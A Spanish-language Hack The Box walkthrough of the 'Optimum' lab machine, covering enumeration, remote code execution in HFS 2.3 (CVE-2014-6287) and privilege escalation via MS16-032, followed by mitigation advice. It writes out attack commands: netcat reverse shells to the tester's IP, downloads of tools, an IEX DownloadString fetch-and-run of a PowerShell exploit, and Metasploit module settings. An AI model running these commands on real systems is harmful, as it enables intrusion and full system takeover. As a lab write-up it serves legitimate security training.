





# Optimum

[{ .maquina-icono }](https://app.hackthebox.com/machines/Optimum)

## Resumen

Servidor HttpFileServer (HFS) 2.3 vulnerable a ejecución remota de código (CVE-2014-6287). Me da una shell como `kostas`, y un exploit de kernel (MS16-032) eleva a `SYSTEM`.

## 1. Enumeración

### 1.1 Ping

```
ping -c 1 10.129.80.29
```

```
64 bytes from 10.129.80.29: icmp_seq=1 ttl=127 time=54.6 ms
```

TTL cercano a 128 → sistema Windows.

### 1.2 Puertos abiertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.80.29
```

```
80/tcp open  http
```

Un único puerto abierto, servicio web.

### 1.3 Enumeración de tecnologías

```
nmap -p 80 -sVC -T4 --min-rate 5000 -Pn 10.129.80.29
```

```
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**HFS (HttpFileServer) 2.3** es un servidor de ficheros ligero de Rejetto con un historial conocido de vulnerabilidades críticas de RCE.

### 1.4 Script vuln de nmap

```
nmap -p 80 --script vuln -Pn --min-rate 5000 -T4 10.129.80.29
```

Solo devuelve falsos positivos (Slowloris y *verb tampering* genérico). Un `curl -I -v http://10.129.80.29` tampoco aporta nada más allá de la cabecera `Server: HFS 2.3` ya conocida.

### 1.5 Búsqueda de exploits

```
searchsploit HFS 2.3
```

```
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3) | windows/remote/49584.py
```

Esto corresponde a **CVE-2014-6287**: HFS interpreta de forma insegura ciertas cadenas en los parámetros de búsqueda (`%00` / `search=`), lo que permite inyectar y ejecutar comandos del sistema a través del propio servidor web.

---

## 2. Explotación

Lo limpio es sacar mi propia copia del exploit con `searchsploit -m` y editar esa copia; así no toco el original de `exploitdb`, que además es de solo lectura para un usuario normal:

```bash
searchsploit -m windows/remote/49584.py
sed -i 's/lhost = "10.10.10.1"/lhost = "10.10.16.120"/' 49584.py
sed -i 's/lport = 1111/lport = 9001/'                   49584.py
sed -i 's/rhost = "10.10.10.8"/rhost = "10.129.80.29"/' 49584.py
```

> En la captura se ve mi primer intento, más torpe: edité el fichero directamente dentro de `/usr/share/exploitdb/...`, por eso el `sed` sin `sudo` falla por permisos y solo funciona con `sudo`. Con `searchsploit -m` ese problema no aparece, porque trabajas sobre tu copia.



Ajusto IP de atacante, IP de la víctima y puerto de escucha, abro un listener en ese mismo puerto y lanzo el exploit:

```bash
nc -lvnp 9001
python3 49584.py
```

El exploit dispara la ejecución remota en el servidor HFS y recibo una shell como el usuario `kostas`:



Desde ahí voy a `C:\Users\kostas\Desktop` y leo la primera flag:

```
USER FLAG -> [censurada]
```

---

## 3. Escalada de privilegios

El usuario `kostas` no tiene acceso al escritorio de `Administrator`. Reviso privilegios y versión del sistema:

```
whoami /priv
systeminfo
```

El sistema es **Windows Server 2012 R2 Standard, Build 9600**. Compruebo qué parches tiene instalados:

```
systeminfo | findstr /C:"KB"
```

En la lista no aparece el parche de **MS16-032** (CVE-2016-0099), un fallo en el manejo del *handle* de Secondary Logon que permite elevar privilegios en local. En Server 2012 R2 ese parche es el **KB3139914** (boletín MS16-032, artículo 3143141); al no estar instalado, la máquina es vulnerable.

### 3.1 Primer intento (fallido)

Pruebo a subir un binario ya compilado del exploit y `nc.exe` a la máquina Windows:

```powershell
wget http://10.10.16.120/nc.exe -OutFile nc.exe
wget http://10.10.16.120/41020.exe -OutFile 41020.exe
.\41020.exe "nc.exe -e cmd.exe 10.10.16.120 9002"
```

La descarga de `41020.exe` devuelve `404 File not found`, y la causa es tonta: el `.exe` no estaba en el directorio desde el que yo había levantado el servidor Python, así que el objetivo lo pedía y el servidor no lo encontraba. En vez de empeñarme con ese binario, cambio de enfoque.

### 3.2 Segundo intento: Invoke-MS16032.ps1

Busco en local un PoC en PowerShell para la misma vulnerabilidad:

```
find / -name "Invoke-MS16032.ps1" 2>/dev/null
```

```
/usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1
```



Lo copio a mi directorio de trabajo, le añado al final la invocación concreta (ejecutar `nc.exe` contra mi IP) y sirvo tanto el script como el binario de `nc.exe` con un servidor HTTP —esta vez comprobando que ambos ficheros están en la raíz que sirvo:

```bash
cp /usr/share/windows-resources/binaries/nc.exe .
echo 'Invoke-MS16032 -Command "cmd /c C:\Users\kostas\Desktop\nc.exe -e cmd.exe 10.10.16.120 9001"' >> Invoke-MS16032.ps1
python3 -m http.server 80
```

Desde la shell de `kostas`, descargo y ejecuto el script en memoria con `IEX` (sin dejar nada en disco):

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.120/Invoke-MS16032.ps1')
```



Con un listener abierto en el puerto indicado, el exploit abusa de un *handle* mal gestionado de Secondary Logon para lanzar un proceso con privilegios de `NT AUTHORITY\SYSTEM`, que ejecuta `nc.exe` y me devuelve una shell de sistema.

Voy a `C:\Users\Administrator\Desktop` y leo la flag final:

```
ROOT FLAG -> [censurada]
```



---

## 4. Alternativa con Metasploit

Todo el proceso anterior (sobre todo la escalada) se puede automatizar con dos módulos de `msfconsole`, evitando el trasiego manual de exploits y binarios:

```
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.129.80.29
set LHOST 10.10.16.120
set RPORT 80
run
```

Esto da una sesión de meterpreter. Tras migrar a un proceso con más estabilidad (`migrate <pid>`) y dejarla en segundo plano (`background`):

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST 10.10.16.120
run
```

El resultado es el mismo: una sesión final como `NT AUTHORITY\SYSTEM`.

---

## Mitigación

- **La vía de entrada es HFS 2.3.** La CVE-2014-6287 no tiene parche: la 2.3 es la última versión que publicó Rejetto y el proyecto está abandonado. Lo correcto es **retirar HFS**; si tuviera que seguir en uso, al menos **no exponerlo a la red** (detrás de un proxy inverso, en un segmento aislado y sin alcance desde fuera), porque tal como está cualquiera que llegue al puerto 80 ejecuta comandos.
- **La escalada se cierra con el parche que falta:** en Server 2012 R2, MS16-032 es el **KB3139914**. Con el sistema al día, `kostas` no habría podido saltar a `SYSTEM` aunque consiguiera la shell inicial.
- **Y un control habría cortado la cadena entre medias:** con *application whitelisting* (AppLocker o WDAC), el `nc.exe` y el PoC que subo no se habrían podido ejecutar, y la escalada se queda sin herramientas. El patrón es el de siempre: un servicio sin mantenimiento, expuesto, sobre un host sin parchear.

## Lo que me costó / Lo que aprendí

**Lo que me costó.** Lo primero fue una tontería que me robó un rato: edité el exploit de `exploitdb`
directamente en `/usr/share/exploitdb/`, que es de solo lectura para un usuario normal, y me
empeñé en usar `sed` sin `sudo` hasta que caí en que era un problema de permisos y no del exploit
(y en que lo suyo era copiarlo con `searchsploit -m` y editar mi copia). Después, `nmap --script
vuln` no dio nada útil, solo falsos positivos (Slowloris y *verb tampering*), y me hizo perder
tiempo. Donde más atascado estuve fue en la escalada: subí un binario ya compilado, `41020.exe`,
y la descarga devolvía `404 File not found`. Estuve dando vueltas al exploit cuando el problema
no era ese.

**Lo que aprendí.**

**Concepto clave aprendido:** cuando una descarga falla, lee el error antes de cambiar de técnica.
El `404` no era del binario, ni de un antivirus, ni de incompatibilidad: era que el `.exe`
sencillamente no estaba en el directorio desde el que yo había levantado el servidor Python. Una
vez entendido eso, pasar a un PoC de PowerShell cargado en memoria con `IEX` resolvió la escalada
y, de paso, me ahorró tener que dejar un binario en disco.

Y en concreto, de cómo encajó todo:

**Qué era la máquina:** un servidor de ficheros HFS 2.3 (Rejetto) con una RCE conocida, sobre un Windows Server 2012 R2 sin el parche de una vulnerabilidad de escalada de privilegios local.

**Enumeración:** `nmap` → solo puerto 80 → versión HFS 2.3 identificada → `searchsploit` confirma CVE-2014-6287 (RCE por inyección en parámetros de búsqueda).

**Explotación:** ajusto el exploit público (`49584.py`) con mi IP/puerto y lo ejecuto directamente contra el servicio → shell como `kostas`.

**Escalada de privilegios:** `systeminfo` revela la falta del parche **KB3139914** → vulnerable a MS16-032 (CVE-2016-0099) → tras un primer intento fallido con un binario precompilado (un `404` por servir el fichero desde el directorio equivocado), uso el PoC en PowerShell `Invoke-MS16032.ps1` (localizado en los módulos de PowerShell Empire), cargado en memoria vía `IEX` → shell como `NT AUTHORITY\SYSTEM`.

---

**Flags:**
- `kostas/user.txt` → `[censurada]`
- `root.txt` → `[censurada]`
